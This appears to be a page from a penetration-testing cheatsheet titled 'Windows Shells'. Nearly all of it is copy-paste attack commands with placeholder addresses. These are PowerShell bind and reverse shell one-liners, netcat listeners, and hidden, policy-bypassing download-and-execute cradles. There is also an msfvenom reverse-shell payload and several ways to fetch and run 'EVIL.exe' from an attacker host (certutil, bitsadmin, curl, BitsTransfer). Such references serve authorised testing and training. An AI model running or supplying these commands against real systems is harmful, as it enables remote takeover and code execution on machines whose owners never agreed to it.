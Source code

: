 ```yaml
---
layout: default
parent: Windows
grand_parent: Pentest Cheatsheets
title: Windows Shells
nav-order: 1
---
```


<details open markdown="block">
  <summary>
    Table of contents
  </summary>
  {: .text-delta }
1. TOC
{:toc}
</details>

**Powershell**
==========

**Bind Shell Single Line**
--------------

<details>
<summary><u>On Target</u></summary>
<p>
BIND_PORT - Port to listen on target for connection in
</p>
</details>


```
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',BIND_PORT);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"  
```

<details>
<summary><u>Locally</u></summary>
<p>
TARGET_IP - IP where you need to connect to listener (actual or proxied)
<br>
BIND_PORT - Port to connect to reach listener
</p>
</details>

```
nc TARGET_IP BIND_PORT
```

**Reverse Shell Single Line**
-----------------------------

<details>
<summary><u>Locally</u></summary>
<p>
REVERSE_PORT - Port you want to open to receive a callback
</p>
</details>

```
nc -nlvp REVERSE_PORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_IP - Where target needs to send connection to reach your listener
REVERSE_PORT - Port target needs to send connection to reach listener
</p>
</details>

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('REVERSE_IP',REVERSE_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

**Reverse Shell w/ IEX**
---------------------


<details>
<summary><u>Locally</u></summary>
<p>
MY_WEBPORT - Port of web server on your host
<br>
REVERSE_PORT - Port target will be hitting on host to get reverse shell
</p>
</details>

```
python3 -m http.server MY_WEBPORT
nc -nlvp REVERSE_PORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_IP -ip to go to get to web server
<br>
MY_WEBPORT - Port of web server on your host
<br>
MY_SCRIPT - Name of script you are hosting that powershell will execute to get the reverse shell.
</p>
</details>

```
powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('http://REVERSE_IP:MY_WEBPORT/MY_SCRIPT.ps1'); MY_SCRIPT.ps1"
powershell.exe iex(New-Object System.Net.WebClient).DownloadString('http://REVERSE_IP:MY_WEBPORT/MY_SCRIPT.ps1')
cmd /c powershell iex(New-cObject System.Net.Webclient).DownloadString('http://REVERSE_IP:MY_WEBPORT/MY_SCRIPT.ps1')
```

**Generic**
===========

**Reverse with download from HTTP**
---------------------

<details>
<summary><u>Locally</u></summary>
<p>
REVERSE_IP - IP target will be connecting to send reverse shell
<br>
REVERSE_PORT - Port host will open to recieve reverse shell
<br>
EVIL - name of EXE
</p>
</details>

```
nc -nlvp REVERSE_PORT
msfvenom -p windows/shell_reverse_tcp LHOST=REVERSE_IP LPORT=REVERSE_PORT –f exe -o EVIL.exe
python3 -m http.server MY_WEBPORT
```

<details>
<summary><u>On Target</u></summary>
<p>
REVERSE_IP - IP target will be connecting to send reverse shell
<br>
REVERSE_PORT - Port host will open to recieve reverse shell
<br>
EVIL - name of EXE
</p>
</details>

```
\\POWERSHELL IWR
Invoke-WebRequest -Uri http://REVERSE_IP:MY_WEBPORT/EVIL.exe -OutFile EVIL.exe
EVIL.exe

\\POWERSHELL Webclient
(New-Object System.Net.WebClient).DownloadFile(http://REVERSE_IP:MY_WEBPORT/EVIL.exe, EVIL.exe)
EVIL.exe

\\POWERSHELL BitsTransfer
Start-BitsTransfer -Source http://REVERSE_IP:MY_WEBPORT/EVIL.exe -Destination EVIL.exe
EVIL.exe

\\WIN10 curl.exe
curl.exe --output EVIL.exe --url http://REVERSE_IP:MY_WEBPORT/EVIL.exe
EVIL.exe

\\WINXP+ bitsadmin
bitsadmin /transfer myDownloadJob /download /priority normal http://REVERSE_IP:MY_WEBPORT/EVIL.exe EVIL.exe
EVIL.exe

\\WINVISTA+ certutil
certutil.exe -urlcache -split -f "http://REVERSE_IP:MY_WEBPORT/EVIL.exe" EVIL.exe
EVIL.exe
```
